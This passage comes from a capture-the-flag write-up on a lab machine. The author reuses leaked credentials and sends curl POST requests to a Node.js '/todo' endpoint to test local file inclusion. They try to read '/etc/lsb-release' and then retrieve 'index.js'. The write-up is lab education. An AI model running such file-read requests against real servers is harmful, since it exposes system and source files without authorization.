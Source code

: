 
Both of the last two include a username “felamos” and a password “Winter2021”.
The `/todo` path also seems to be getting the contents of a file. I can
recreate this last POST with `curl`:

    
    
    oxdf@parrot$ curl -s http://unobtainium.htb:31337/todo -H "Content-Type: application/json" -d '{"auth": {"name": "felamos", "password": "Winter2021"}, "filename" : "todo.txt"}' | jq
    {
      "ok": true,
      "content": "1. Create administrator zone.\n2. Update node JS API Server.\n3. Add Login functionality.\n4. Complete Get Messages feature.\n5. Complete ToDo feature.\n6. Implement Google Cloud Storage function: https://cloud.google.com/storage/docs/json_api/v1\n7. Improve security\n"
    }
    

## Shell as root in default

### LFI in todo

The last POST above sends `auth` and `filename` parameters. I want to test if
there are limits on the file. I’ll go for `/etc/lab-release`:

    
    
    oxdf@parrot$ curl http://unobtainium.htb:31337/todo -H "Content-Type: application/json" -d '{"auth": {"name": "felamos", "password": "Winter2021"}, "filename" : "/etc/lsb-release"}'
    

It just hangs and doesn’t return anything. This LFI is limited to the local
folder.

I’ll try to find the server-side JS for this app. `nmap` showed it was running
NodeJS / Express framework. It took a few guesses (`server.js`, `main.js`,
etc), but eventually I got it with `index.js`:

    
    
    oxdf@parrot$ curl http://unobtainium.htb:31337/todo -H "Content-Type: application/json" -d '{"auth": {"name": "felamos", "password": "Winter2021"}, "filename" : "index.js"}'